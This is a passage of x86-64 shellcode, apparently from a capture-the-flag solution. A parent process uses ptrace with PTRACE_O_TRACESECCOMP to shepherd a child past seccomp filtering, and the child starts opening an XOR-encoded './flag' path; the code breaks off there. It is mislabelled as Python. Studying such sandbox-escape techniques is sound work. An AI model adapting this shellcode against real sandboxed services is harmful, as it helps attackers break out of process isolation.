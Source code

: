 ```python
        cmp rax,0 
        je child_process

    parent_process:
       /*PTRACE_ATTACH  ptrace(request=0x10, v00='r15', v1=0, v2=0) */
        xor r10d, r10d /* 0 */
        push 0x10
        pop rdi
        xor edx, edx /* 0 */
        mov rsi, r15
        /* call ptrace() */
        push 101 /* 0x65 */
        pop rax
        syscall

        /* PTRACE_SETOPTIONS  PTRACE_O_TRACESECCOMP  ptrace(request=0x4200, v0='r15', v1=0, v2=0x80) */
        xor r10d, r10d
        mov r10b, 0x80
        mov edi, 0x1010101 /* 16896 == 0x4200 */
        xor edi, 0x1014301
        xor edx, edx /* 0 */
        mov rsi, r15
        /* call ptrace() */
        push 101 /* 0x65 */
        pop rax
        syscall

    monitor_child:
        /* wait4(pid=0, stat_loc=0, options=0, usage=0) */
        xor r10d, r10d /* 0 */
        xor edi, edi /* 0 */
        xor edx, edx /* 0 */
        xor esi, esi /* 0 */
        /* call wait4() */
        push 61 /* 0x3d */
        pop rax
        syscall

        /*PTRACE_CONT ptrace(request=7, v0='r15', v1=0, v2=0) */
        xor r10d, r10d /* 0 */
        push 7
        pop rdi
        xor edx, edx /* 0 */
        mov rsi, r15
        /* call ptrace() */
        push 101 /* 0x65 */
        pop rax
        syscall

        jmp monitor_child

    child_process:

        /* open(file='./flag', oflag=0, mode=0) */
        /* push b'./flag\x00' */
        mov rax, 0x101010101010101
        push rax
        mov rax, 0x101010101010101 ^ 0x67616c662f2e
        xor [rsp], rax
        mov rdi, rsp
        xor edx, edx /* 0 */
        xor esi, esi /* 0 */
```